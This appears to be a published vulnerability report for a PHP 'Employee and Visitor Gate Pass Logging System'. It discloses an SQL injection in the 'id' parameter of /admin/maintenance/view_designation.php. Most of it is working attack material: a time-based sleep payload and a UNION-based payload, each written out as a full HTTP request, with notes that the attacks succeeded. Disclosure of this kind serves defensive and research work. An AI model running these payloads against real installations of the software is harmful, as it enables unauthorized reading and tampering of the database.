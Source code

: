 # Employee and Visitor Gate Pass Logging System v1.0 has SQL injection

BUG_Author: ZongXinLi

Website source address:https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

Vulnerability File: /employee_gatepass/admin/maintenance/view_designation.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 2 from (select(sleep(10)))x) and 'x'='x

```
GET /employee_gatepass/admin/maintenance/view_designation.php?id=1%27%20and%20(select%202%20from%20(select(sleep(10)))x)%20and%20%27x%27=%27x HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=m9am97ggdd683nbbhr07jedt25
Connection: close
```

The server's response time is 10 seconds

![image](https://github.com/4O4NtFd/bug_report/blob/main/sql1.png)

Payload2:id=-1' union all select null,concat(0x35363738,0x65666768),null,null,null,null-- -

```
GET /employee_gatepass/admin/maintenance/view_designation.php?id=-1%27%20union%20all%20select%20null,concat(0x35363738,0x65666768),null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=m9am97ggdd683nbbhr07jedt25
Connection: close
```

union query success

![image](https://github.com/4O4NtFd/bug_report/blob/main/sql2.png)

